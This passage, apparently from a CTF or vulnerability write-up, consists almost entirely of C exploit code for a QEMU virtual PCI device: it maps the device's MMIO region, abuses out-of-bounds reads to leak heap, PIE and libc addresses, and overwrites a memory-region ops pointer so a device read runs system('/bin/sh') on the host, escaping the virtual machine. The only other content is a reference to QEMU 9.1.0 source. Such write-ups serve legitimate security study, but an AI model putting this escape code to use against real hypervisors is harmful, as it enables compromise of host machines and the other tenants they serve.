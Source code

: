 ```c
    }

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset;
    *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data & ((1 << 0x20) - 1);

    if(size == 8){
        *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 0x4;
        *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data >> 0x20;
    }
}

int main(int argc, char *argv[]) {
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if(fd < 0) {
        perror("open");
        exit(1);
    }

    void *mem = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);

    uint64_t ms = read_mem(mem, 0x158);
    uint64_t pb = read_mem(mem, -0xc8) - 0xd1d100;

    uint64_t ms_buffer = ms + 0xBF8;
    uint64_t ops_addr = ms + 0xb30;

    uint64_t lb = read_mem(mem, (ms+8) - ms_buffer) - 0x5ad6f0;
    
    uint64_t system = pb + 0x000000000324150;   // same as lb + 0x58740
    char *binsh = "/bin/sh\x00";
    uint64_t mmio_write = pb + 0x0000000003AE1B0;

    printf("[+] ms = 0x%lx\n", ms);
    printf("[+] pie_base = 0x%lx\n", pb);
    printf("[+] libc_base = 0x%lx\n", lb);
    printf("[+] ops_addr = 0x%lx\n", ops_addr);
    fflush(stdout);

    write_mem(mem, 0x0, system, 8);
    write_mem(mem, 0x8, mmio_write, 8);
    write_mem(mem, 0x10, *(uint64_t*)binsh, 8);
    write_mem(mem, ops_addr - ms_buffer, ms_buffer, 8);
    write_mem(mem, (ops_addr+8) - ms_buffer, ms_buffer+0x10, 4);
    
    uint64_t trigger = *(uint64_t *)((void*)mem + MMIO_GET_DATA);

    munmap(mem, PAGE_SIZE);
    close(fd);

    return 0;
}
```

## Ref
[1] Elixir qemu v9.1.0, <https://elixir.bootlin.com/qemu/v9.1.0/source/system/memory.c>